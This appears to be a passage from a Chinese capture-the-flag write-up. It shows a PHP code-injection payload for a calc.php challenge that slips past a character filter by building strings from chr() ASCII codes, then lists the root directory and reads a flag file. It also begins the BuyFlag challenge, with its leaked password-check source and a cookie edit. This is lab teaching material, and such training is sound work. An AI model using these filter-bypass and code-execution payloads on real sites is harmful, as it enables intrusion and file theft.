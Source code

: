 过滤了很多字符.正常字符没办法直接使用，只能为数字。但是可以使用 ASCII码

绕过waf

![image-20230420165817333](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420165817333.png)

payload：

```
/calc.php? num=2;var_dump(scandir(chr(47)))
```

其中var_dump()用来打印；
 scandir（）用来获扫描目录下文件；
 chr（47）是“/”的ASCII编码

chr()函数可以是ASCLL码变成字符，ord()函数相反

file_get_contents() 是用于将文件的内容读入到一个字符串

发现

![image-20230420170107136](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420170107136.png)

读取一下看看

```
/calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

![image-20230420170248010](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420170248010.png)

## [极客大挑战 2019]BuyFlag

找到信息

```
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

is_numeric()函数，检测变量是否为数字或数字字符串

password不能是数字或数字字符串，并且password等于404即可

将user的值改为1，成为本校学生

![image-20230420185127185](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420185127185.png)
